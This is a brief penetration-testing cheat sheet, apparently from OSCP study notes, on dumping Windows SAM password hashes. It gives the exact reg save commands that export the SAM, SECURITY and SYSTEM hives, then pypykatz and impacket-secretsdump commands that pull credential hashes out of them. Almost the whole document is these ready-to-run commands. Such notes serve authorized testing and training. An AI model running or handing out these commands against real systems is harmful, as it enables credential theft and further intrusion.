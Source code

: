 # Dump SAM Hashes via Registry

Assume you are already have NT SYSTEM or Administrator access on system. Or, you have Backup Operator role.

```powershell
reg save hklm\system system.oscp
reg save hklm\security security.oscp
reg save hklm\sam sam.oscp
```

Download the file to attacker machine, and get the hash value using pypykayz.

{% code overflow="wrap" %}
```bash
pypykatz registry system.oscp --sam sam.oscp --security security.oscp
```
{% endcode %}

Or use secretsdump.

{% code overflow="wrap" %}
```bash
impacket-secretsdump -sam sam.oscp -security security.oscp -system system.oscp LOCAL
```
{% endcode %}
